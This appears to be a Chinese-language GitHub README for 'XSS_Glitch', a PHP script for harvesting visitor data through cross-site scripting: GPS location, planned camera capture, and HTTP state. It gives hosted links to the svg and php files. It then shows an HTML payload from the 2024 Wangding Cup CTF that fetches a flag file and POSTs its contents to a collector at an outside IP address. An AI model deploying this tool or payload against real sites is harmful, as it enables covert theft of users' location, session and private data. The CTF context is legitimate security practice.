

# XSS_Glitch
用一个简单的php脚本实现XSS简单数据获取

- GPS定位信息
- 摄像头截屏 [todo]
- HTTP状态保存

反正就是简单的不能再简单的一个用户信息获取脚本

### 使用方法

有√8使用方法，svg和php放到目录即可，然后随机访问上述两个文件

```
http://bfs.iloli.moe/po7mn1.svg
http://bfs.iloli.moe/po7mn1.php
```

### 实战

2024网鼎杯青龙组 web2

准备payload

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="test1.js">
    </script>
</head>
<body>
    111
    <script>
        fetch('http://3.88.127.66/flag.txt').then(response => response.text()).then(data => {
            fetch('http://3.88.127.66/xss-glitch.php', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded'
                },
                body: "content=123" + data
            })
        })
    </script>
</body>
</html>
```

然后插爆服务器拿到flag


